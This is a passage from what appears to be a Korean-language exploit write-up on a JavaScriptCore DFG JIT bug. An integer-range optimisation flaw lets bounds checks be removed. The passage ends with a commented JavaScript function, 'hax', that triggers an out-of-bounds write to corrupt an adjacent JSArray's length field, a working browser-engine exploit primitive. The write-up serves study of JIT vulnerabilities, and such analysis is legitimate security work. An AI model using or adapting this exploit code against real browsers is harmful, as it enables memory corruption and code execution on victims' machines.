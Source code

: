 위의 로그를 살펴보면 OOB Read가 일어난 것을 확인할 수 있습니다.

그러나 여기서 문제점은 인덱스에 해당하는 rcs가 항상 INT_MIN으로 고정된다는 것입니다.

즉 `0x8000000 * 8 = 16GB` 뒤의 메모리에 접근하게 됩니다.

이 버그는 이론적으로는 익스플로잇이 가능하지만, 초기 익스플로잇 방법으로는 적절하지 않습니다.

따라서 우리는 **특정한 값을 i에서 빼서 INT_MIN을 임의의 양수**로 변환하는 과정을 통해, 공격자가 원하는 곳의 인덱스를 읽을 수 있도록 할 것입니다.

DFG 컴파일러는 i가 항상 양수라고 잘못 가정하기 때문에, 이 뻴셈 연산이 **체크되지 않은 연산**으로 처리되며, 오버플로우가 발생해도 이를 탐지하지 않습니다.

그러나 뻴셈을 수행하게되면 이전 i의 대한 정보가 무효화되기 때문에 다시 경계 검사 제거를 수행해주어야 합니다.

이를 위해 if(i > 0)을 추가해줘서 다시 경게 검사가 제거될 수 있도록 해줍니다.

또한 값을 빼는 과정에서 사용되는 정상적인 인덱스 값을 OOB 값으로 바뀌어 질 수도 있습니다. 

따라서 해당 연산은 입력값이 음수일 경우(INT_MIN)에만 실행될 수 있도록 조건부로 수행해주어야 합니다.

해당 버전 DFG 컴파일러는 if (n < 0)이 항상 참이 아니라는 것을 판단하지 않아 최적화가 진행되지 않고 그대로 남아있게 됩니다.

밑의 코드는 설명하는 주석이 추가된 버전입니다.

이 함수는 JIT 컴파일 후 n에 INT_MIN을 전달하면 메모리 내 arr 바로 뒤에 위치한 JSArray의 길이 필드를 OOB 쓰기로 조작하게 됩니다.

이 단계의 성공 여부는 **정확한 힙 레이아웃**이 존재하는지에 달려있습니다.

해당 버그는 제어 가능한 영역에 대해서도 OOB Read를 수행할 수 있기 때문에, 메모리 손상을 트리거 하기 전에 올바른 힙 레이아웃을 조정하는 것이 가능합니다.
```js
function hax(arr, n) {
    // n을 32비트 정수로 강제 변환
    n |= 0;

    //IntegerRangeOptimization이 n이 음수임을 알도록 유도
    if (n < 0) {
        // 숫자가 아닌 바이트코드를 사용하도록 하여 부호 반전 연산(ArithMode)이 체크되지 않도록 유도
        // 즉, 마지막 반복에서 INT_MIN이 다시 INT_MIN이 되도록 하기
        let v = (-n) | 0;

        // 이 단계에선 n이 음수임이 보장되므로, Math.abs(n)은 ArithNegate 연산으로 바뀜
        // 원래 해당 연산은 체크된 ArithNegate로 되어야 하지만, 이전에 체크되지 않은 ArithNegate가 CSE로 인해 대체됩니다.
        let i = Math.abs(n);

        // 위의 과정으로 인해 IntegerRangeOptimization은 i가 항상 0 이상이라고 잘못 판단을 하게 됨

        if (i < arr.length) {
            // 이 조건문 안에선 IntergerRangeOptimization이 i가 항상 arr.length 범위 내에 있다고 판단함
            // 하지만 마지막 반복에서 실제로 i는 INT_MIN이 됨

            // 밑의 조건문은 IntegerRangeOptimization이 i가 음수 임을 판단하지 못하도록 하기 위함
            if (i & 0x80000000) {
                // 마지막 반복에서 밑의 연산을통해 INT_MIN이 임의의 양수로 변환되게 됨
                // ArithAdd 연산이 IntegerRangeOptimization에 의해 체크되지 않은 연산으로 바뀌었기 때문에
                // 오버플로우가 발생되어도 예외처리가 발생하지 않음
                i += -0x7ffffff9;
            }

            // 위의 코드 실행으로 인해 IntegerRangeOptimization이 i가 항상 양수임을 증명할 수 없게 됨
            // 따라서 경계 검사를 다시 제거하기 위해 추가적인 조건문이 필요함
            if (i > 0) {
                // 이 단계에서 IntegerRangeOptimization은 다시 i가 arr.length 범위 내에 있다고 생각하여 경계 검사를 제거함
                // 경계 검사 제거로 인해 OOB 영역에 대해 접근이 가능하게 됨
                // 결과적으로 이 버그로 인해 arr 바로 뒤에 있는 JSArray의 헤더가 손상됨
                arr[i] = 1.04380972981885e-310;
            }
        }
    }
}
```
